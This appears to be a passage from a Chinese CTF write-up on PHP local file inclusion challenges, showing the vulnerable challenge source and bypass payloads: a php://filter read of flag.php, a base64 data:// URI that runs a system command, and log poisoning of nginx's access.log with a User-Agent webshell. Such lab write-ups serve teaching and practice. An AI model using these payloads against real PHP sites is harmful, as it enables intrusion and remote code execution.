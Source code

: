 > ```
>
> 实际是读取文件，而不是代码执行--，eval的作用是拼接括号内语句到php文件中
>
> 36：禁用数字，更改参数即可，这里的a可以不加引号，因为php版本要向下兼容，为了可能更改
>
> ```
> ?c=include%0a$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
> ```
>
> 

## 37、38-伪协议|日志文件getshell

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 05:18:55
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
}
```

eval改为include

但是正则过滤了关键词flag，可以用data://伪协议的base64过滤器来绕过~

```
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCd0YWMgZmxhZy5waHAnKTs/Pg==
```

或者日志文件包含getshell都行~，可以看到用的是nginx，

包含nginx日志文件：/var/log/nginx/access.log，然后在ua头写一句话就行
